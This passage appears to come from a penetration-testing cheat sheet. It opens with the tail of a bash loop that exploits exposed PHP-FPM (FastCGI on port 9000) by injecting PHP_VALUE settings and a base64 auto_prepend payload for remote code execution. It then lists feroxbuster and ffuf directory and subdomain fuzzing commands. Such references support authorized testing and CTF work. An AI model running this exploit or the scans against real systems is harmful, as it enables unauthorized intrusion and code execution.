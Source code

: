 ```bash
    env -i \
      PHP_VALUE="allow_url_include=1"$'\n'"allow_url_fopen=1"$'\n'"auto_prepend_file='data://text/plain\;base64,$B64'" \
      SCRIPT_FILENAME=$FN SCRIPT_NAME=$FN REQUEST_METHOD=POST \
      cgi-fcgi -bind -connect $HOST:9000 &> $OUTPUT

    grep -q 5253 $OUTPUT
    [ $? -eq 0 ] && echo "+++ RCE success with $FN on $HOST, output in $OUTPUT"
done
```

## feroxbuster

> https://github.com/epi052/feroxbuster

> https://epi052.github.io/feroxbuster-docs/

### Common Commands

```console
$ feroxbuster -u http://<RHOST>/
$ feroxbuster -u http://<RHOST>/ --extract-links
$ feroxbuster -u http://<RHOST>/ --filter-status 301
$ feroxbuster -u http://<RHOST>/ -s <STATUS_CODES>
$ feroxbuster -u http://<RHOST>/ --scan-dir-listings
$ feroxbuster -u http://<RHOST>/ -x php
$ feroxbuster -u http://<RHOST>/ -x js,bak,txt,png,jpg,jpeg,php,aspx,html --extract-links
$ feroxbuster -u http://<RHOST>/ -b sessionId=<ID>
$ feroxbuster -u http://<RHOST>/ --rate-limit 100
$ feroxbuster -u http://<RHOST>/ --filter-regex '[aA]ccess [dD]enied.?' --output <FILE> --json
$ feroxbuster -u http://<RHOST>/ --replay-proxy http://localhost:8080 --replay-codes 200 302 --insecure
```

## ffuf

> https://github.com/ffuf/ffuf

> https://github.com/ffuf/ffuf/wiki

### Common Commands

```console
$ ffuf -w /usr/share/wordlists/dirb/common.txt -u http://<RHOST>/FUZZ --fs <NUMBER> -mc all
$ ffuf -w /usr/share/wordlists/dirb/common.txt -u http://<RHOST>/FUZZ --fw <NUMBER> -mc all
$ ffuf -w /usr/share/wordlists/dirb/common.txt -u http://<RHOST>/FUZZ -mc 200,204,301,302,307,401 -o results.txt
$ ffuf -c -w /usr/share/seclists/Discovery/DNS/namelist.txt -H "Host: FUZZ.<RHOST>" -u http://<RHOST>/ -ac
$ ffuf -c -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -H "Host: FUZZ.<RHOST>" -u http://<RHOST>/ -fs 185
$ ffuf -c -w /usr/share/wordlists/seclists/Fuzzing/4-digits-0000-9999.txt -u http://<RHOST>/backups/backup_2020070416FUZZ.zip
```
